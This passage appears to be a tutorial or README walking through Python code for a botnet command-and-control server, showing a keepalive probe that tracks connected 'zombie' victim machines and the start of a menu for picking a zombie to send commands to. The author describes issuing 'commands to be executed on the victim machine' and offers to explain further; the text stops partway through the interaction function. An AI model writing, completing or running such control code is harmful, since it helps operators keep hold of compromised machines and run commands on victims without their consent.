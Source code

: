 ***Keepalive probe to determine if zombies are (un)dead or alive***
-

> setup a probe 👽 to ensure agents are still alive or dead (hey mom there's something in the backroom.  Hope it's not the creature from above...)

```python
def probe():
    while True:
        global counter
        global clientlist
        global clientdata
       
        ############################################################
        # are any not alive anymore?  do a keep-alive probe to see...
        ############################################################
        try:
            d = 0
            for c in range(len(clientlist)):
                clientlist[c][1].send(b"?keepalive?\n")
                d = d + 1
        except:
            print(Fore.YELLOW + "\nThis Zombie died:\n************************\n" + Fore.WHITE, counter, "--> ", clientdata[d], "\n************************\n")
            clientlist.pop(d)
            clientdata.pop(d)
            counter = counter - 1
            print(Fore.GREEN + "[+] removed \"dead\" zombie ;) " + Fore.WHITE)
        time.sleep(4)
```

***Interact with your Zombies dude!!! 🧟‍♀️***
-

> This section is the biggest but most essential.  We interact with our zombies and issue commands to be executed on the victim machine!

I apologize for not going into detail on the code.  If you have questions, feel free to ask me.  I'm on twitter and discord, etc.  Happy to explain further.

```python
def zombies():
    global counter
    global clientlist
    global clientdata
    selection=""
    
    if (len(clientlist)) <= 0:
        print(Fore.RED + "[!] no zombies yet..." + Fore.WHITE)
        return
        
    print(Fore.GREEN + "Zombies: ", len(clientlist), Fore.WHITE)

    temp=0
    for b in clientdata:
        print("Zombie: ", temp, "-->", b)
        temp+=1
    print(Fore.GREEN + "\nPick a zombie to interact with!\n" + Fore.WHITE)
    try:
        selection=int(input(' <enter the client #> $ '))
    except:
        print(Fore.RED + "[!] enter client number..." + Fore.WHITE)
        time.sleep(2)
        return 
    
    while True:
        if os.name == 'nt':
```